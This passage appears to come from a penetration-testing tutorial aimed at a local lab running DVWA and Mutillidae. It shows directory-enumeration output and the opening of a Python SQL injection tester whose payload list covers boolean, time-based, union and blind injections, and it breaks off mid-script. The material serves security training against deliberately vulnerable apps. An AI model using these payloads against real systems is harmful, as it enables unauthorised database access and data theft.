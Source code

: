 ```
[*] Interesting links found:
  http://192.168.1.10/phpMyAdmin/
  http://192.168.1.10/mutillidae/
  http://192.168.1.10/dvwa/

[*] Starting directory enumeration...
[+] Directory found: /phpmyadmin/
[+] Directory found: /mutillidae/
[+] Directory found: /dvwa/
[+] File found: /robots.txt (26 bytes)
    Content preview:
    User-agent: *
Disallow:

[*] Directory enumeration completed
[*] Found 4 items
```

### Step 3: SQL Injection Testing

**Now let's test the DVWA application for SQL injection:**

**Create file: `sql_injection_test.py`**
```python
#!/usr/bin/env python3
import requests
import urllib3
import re
import time
from urllib.parse import urlencode

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

class SQLInjectionTester:
    def __init__(self, target_url):
        self.target_url = target_url
        self.session = requests.Session()
        self.session.headers.update({
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36'
        })
        self.vulnerabilities = []
    
    def test_sql_injection(self, param_name, base_params=None):
        """Test for SQL injection in a specific parameter"""
        if base_params is None:
            base_params = {}
        
        print(f"\n[*] Testing parameter '{param_name}' for SQL injection...")
        print("-" * 50)
        
        # SQL injection payloads (ordered by detection reliability)
        payloads = [
            "'",                                    # Basic quote
            "' OR '1'='1",                         # Boolean-based
            "' OR '1'='1' --",                     # Boolean with comment
            "' OR '1'='1' /*",                     # Boolean with MySQL comment
            "'; WAITFOR DELAY '00:00:05' --",      # Time-based (SQL Server)
            "' OR SLEEP(5) --",                    # Time-based (MySQL)
            "' OR pg_sleep(5) --",                 # Time-based (PostgreSQL)
            "' UNION SELECT NULL,NULL --",         # Union-based
            "' UNION SELECT 1,2,3,4,5 --",        # Union column enumeration
            "' AND (SELECT COUNT(*) FROM users) > 0 --",  # Boolean blind
            "1' AND (SELECT SUBSTRING(@@version,1,1))='5' --"  # Version detection
        ]
```